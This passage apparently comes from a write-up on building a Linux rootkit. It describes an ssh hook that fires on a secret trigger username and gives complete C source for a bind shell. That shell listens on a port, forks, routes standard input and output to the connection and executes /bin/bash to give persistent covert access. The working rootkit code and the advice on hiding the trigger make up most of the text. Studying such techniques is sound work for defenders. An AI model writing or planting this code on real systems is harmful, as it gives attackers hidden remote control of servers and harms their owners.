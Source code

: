 ```c
}
```

> Note, in reality, you should probably use a more complicated trigger than joebruin, as this hook will actually trigger whenever any global program tries to write something containing "joebruin" to any file. As it is short and comprised of actual words, it's likely that this could trigger unintentionally. For our actual rootkit, we made the trigger username a long string of base64 text, where unintentional triggering is extremely unlikely.

## Bind Shell

At this point, we had a single hook that called a function when a user attempted to ssh into the server with a trigger username. Given the next goal for our rootkit was persistent access, we decided to write code to set up a bind shell whenever the user used the trigger mechanism.

```c
#define BIND_PORT XXXXX

void start_bind4()
{
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(BIND_PORT);
	addr.sin_addr.s_addr = INADDR_ANY;

	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	/* allow reuse of local address */
	const static int optval = 1;
	setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval));

	/* bind socket to local address */
	bind(sockfd, (struct sockaddr*) &addr, sizeof(addr));
	listen(sockfd, 0);

	int client_sockfd = accept(sockfd, NULL, NULL);
	int pid = fork();
	if (pid == 0) {
		for (int i = 0; i < 3; i++)
			dup2(client_sockfd, i);

		execve("/bin/bash", NULL, NULL);
	}
	close(sockfd);
}
```

The first several statements are fairly standard networking C code. They simply create a socket, bind it to the ip address of the server, listen for a connection, and accept the first client connection on the specified port.

Next, the program forks, creating a copy of the running process (the ssh daemon in this case). Next the function `dup2` overwrites the stdout, stdin, and stderr file descriptors with the socket, effectively rerouting stdin, stdout, and stderr to the connection. Finally, the program execs a shell, replacing the currently running process (forked version) with the shell program.

